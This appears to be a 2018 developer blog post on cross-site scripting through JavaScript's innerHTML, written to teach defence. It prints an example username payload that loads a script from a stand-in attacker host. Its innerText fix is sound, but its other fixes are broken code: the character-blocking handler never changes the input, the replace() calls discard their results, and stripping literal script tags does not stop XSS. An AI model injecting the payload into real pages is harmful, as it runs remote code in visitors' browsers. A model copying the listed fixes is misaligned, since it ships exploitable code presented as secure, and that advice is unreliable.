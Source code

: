 ```yaml
---
title:  "The Problem with innerHTML"
subtitle: "How innerHTML makes your site hackable"
image: "img/posts/the-problem-with-innerHTML.png"
date: 2018-01-20 11:00:00
---
```


``` javascript
element.innerHTML = "Post by " + username;
```

This simple line of code might seem "innocent" and well written, but it can actually cause quite a bit of trouble.

Imagine you have a website where a user can post a video, similar to Youtube, and when they published a video, it would say "Post by " and then their username under their video.

Their username would be fetched from the backend, and the code above would be used to display the message.

With a regular user this would work perfectly fine, but what if someone wants to hack your website?

What would happen if that person registered an account on your site and made their username ```<script src='http://hackerwebsite.com/hack.js'></script>```?

Well, since you used the innerHTML property, the script in their username would be injected into everyone that viewed that persons video.

Now imagine that hacker made a viral video. Well, millions of people would have that script injected into their computer.

### This sort of hack is called Cross Site Scripting, or XSS for short.

It is the most popular hack on the internet, and has affected millions of websites such as Google, Youtube, and Facebook.

### So, what can you do to protect yourself?

For starters, if there is any data that you are putting in an HTML element via .innerHTML, make sure it is from a trusted source - not a user or other person. If you do have any data from a non-trusted source, you can use the innerText property instead, or the .text() function in jQuery.

Here's the new code:

``` javascript
element.innerText = "Post by " + username;
```

Furthermore, when a user is registering for your site, block characters such as <, >, (, or ), because regular users don't need them for normal usernames, and they tend to be used in injected scripts, as well as HTML elements.

Here's an example of this implemented:

``` javascript
usernameInput.oninput = function(){
  // Last character entered
  var enteredChar = this.value[this.value.length-1];

  // List of blocked characters
  var charsBlocked = ["<",">","(",")"];

  // If entered character is blocked
  if(charsBlocked.indexOf(enteredChar)!=-1){
    // Take away entered character
    this.value[this.value.length-1] = "";
  }
}
```

You can also use the .replace() function to simply delete any occurences of ```<script>``` or ```</script>``` in a string.

For example:

``` javascript
username.replace("<script>", "");
username.replace("</script>", "");
element.innerHTML = "Post by " + username;
```

Cross Site Scripting affects thousands of websites every year.

If your site is vulnerable to XSS attacks, hackers could potentially transmit important data to their servers, such as your entire javascript window object (containing all of your variables and functions), or they could even steal sensitive information such as user passwords, and more.

Whenever you are using .innerHTML, I suggest you check if your site could be vulnerable to XSS attacks, and change your code correspondingly.

### Anyway, thanks for reading!

``` javascript
element.innerText = "This site is not vulnerable to XSS attacks.";
```